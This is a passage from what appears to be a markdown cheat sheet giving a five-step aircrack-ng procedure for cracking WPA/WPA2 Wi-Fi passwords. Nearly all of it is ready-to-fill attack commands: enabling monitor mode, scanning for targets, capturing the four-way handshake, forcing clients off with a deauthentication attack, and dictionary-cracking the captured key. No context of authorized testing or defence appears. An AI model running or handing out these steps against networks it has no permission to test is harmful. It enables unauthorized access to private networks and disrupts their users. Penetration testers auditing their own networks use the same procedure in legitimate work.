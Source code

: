         ```
        
- Cracking WPA/WPA2 Networks
    1. **Monitor Mode**:
        
        ```
        airmon-ng start wlan0
        
        ```
        
    2. **Identify Target**:
        
        ```
        airodump-ng mon0
        
        ```
        
    3. **Capture Four-Way Handshake**:
        
        ```
        airodump-ng -c <channel> -w <filename> --bssid <AP BSSID> mon0
        
        ```
        
    4. **Deauthentication Attack**:
        
        ```
        aireplay-ng --deauth 10 -a <AP BSSID> -c <client MAC address> mon0
        
        ```
        
    5. **Crack WPA/WPA2 Key**:
        
        ```
        aircrack-ng -w <wordlist> <capture file>.cap
        
        ```

{{</ collapse >}}